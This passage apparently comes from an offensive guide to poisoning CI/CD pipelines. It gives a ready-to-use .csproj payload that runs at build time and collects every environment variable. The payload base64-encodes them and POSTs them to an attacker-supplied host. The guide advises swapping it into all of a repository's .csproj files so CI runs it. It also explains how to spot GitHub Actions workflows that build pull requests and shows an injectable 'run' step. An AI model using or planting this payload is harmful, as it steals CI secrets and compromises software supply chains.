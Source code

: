 
### C# - *.csproj

> `.csproj` files are build file for the `C#` runtime.\
> They are constructed as XML files that contain the different dependencies that are required to build the project.\
> Replacing all the `.csproj` files in the repo with the following payload may trigger their execution by the CI.

NOTE: Since this is an XML file - XML special characters must be escaped.


```powershell
<Project>
 <Target Name="SendEnvVariables" BeforeTargets="Build;BeforeBuild;BeforeCompile">
   <Exec Command="powershell -Command &quot;$envBody = [Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes((Get-ChildItem env: | Format-List | Out-String))); Invoke-WebRequest -Uri {YourHostName} -Method POST -Body $envBody&quot;" />
 </Target>
</Project>
```


## CI/CD products

### GitHub Actions

The configuration files for GH actions are located in the directory `.github/workflows/`\
You can tell if the action builds pull requests based on its trigger (`on`) instructions:

```yaml
on:
  push:
    branches:
      - master
  pull_request:
```

In order to run an OS command in an action that builds pull requests - simply add a `run` instruction to it.\
An action may also be vulnerable to command injection if it dynamically evaluates untrusted input as part of its `run` instruction:

```yaml
jobs:
  print_issue_title:
    runs-on: ubuntu-latest
    name: Print issue title
    steps:
    - run: echo "${{github.event.issue.title}}"
```


### Azure Pipelines (Azure DevOps)

The configuration files for azure pipelines are normally located in the root directory of the repository and called - `azure-pipelines.yml`\
You can tell if the pipeline builds pull requests based on its trigger instructions. Look for `pr:` instruction:
